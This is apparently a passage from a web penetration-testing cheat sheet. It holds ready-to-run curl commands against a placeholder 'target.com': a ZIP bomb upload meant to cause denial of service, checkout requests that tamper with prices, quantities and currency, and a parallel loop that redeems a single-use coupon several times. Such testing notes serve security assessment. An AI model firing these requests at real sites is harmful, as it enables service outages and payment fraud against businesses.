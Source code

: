 **ZIP bomb (DoS):**

```bash
# Create zip bomb
dd if=/dev/zero bs=1M count=10240 | gzip > 10GB.gz
# 10MB compressed, 10GB uncompressed

# Upload to cause DoS when extracted
curl -F "file=@10GB.gz" http://target.com/upload
```

---

## Business Logic Testing

### Price Manipulation

```bash
# Negative quantity
curl -X POST http://target.com/cart/add \
    -d "product_id=123&quantity=-1&price=99.99"

# Negative price
curl -X POST http://target.com/checkout \
    -d "items[0][id]=123&items[0][quantity]=1&items[0][price]=-99.99"

# Currency mismatch
curl -X POST http://target.com/checkout \
    -d "amount=1&currency=USD"
# Then change currency to IDR (1 USD = 15,000 IDR)
curl -X POST http://target.com/process-payment \
    -d "amount=1&currency=IDR"

# Decimal truncation
curl -X POST http://target.com/cart/add \
    -d "product_id=123&price=0.001"
# If stored as integer: 0.001 → 0
```

### Race Conditions

**Testing race conditions:**

```bash
# Scenario: Redeem coupon code (single-use)

# 1. Create multiple requests in parallel
for i in {1..10}; do
    curl -X POST http://target.com/redeem \
        -H "Cookie: session=user_session" \
        -d "coupon=SAVE50" &
done

# Expected: Only 1 successful redemption
# Vulnerable: Multiple successful redemptions

# Turbo Intruder (Burp Suite extension)
# 1. Send request to Turbo Intruder
# 2. Set concurrency to 50-100
# 3. Send simultaneous requests
```
